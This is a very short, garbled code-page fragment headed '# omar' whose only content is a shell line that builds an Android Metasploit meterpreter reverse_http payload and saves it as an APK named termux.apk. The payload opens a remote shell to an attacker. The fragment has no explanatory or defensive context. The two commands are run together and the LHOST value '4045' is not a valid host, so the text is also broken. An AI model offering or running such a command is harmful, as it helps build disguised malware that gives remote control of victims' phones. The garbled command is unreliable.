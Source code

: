 # omar
gem install metasploit-payloadsmsfvenom -p android/meterpreter/reverse_http LHOST=4045 LPORT=8080 R > /sdcard/termux.apk
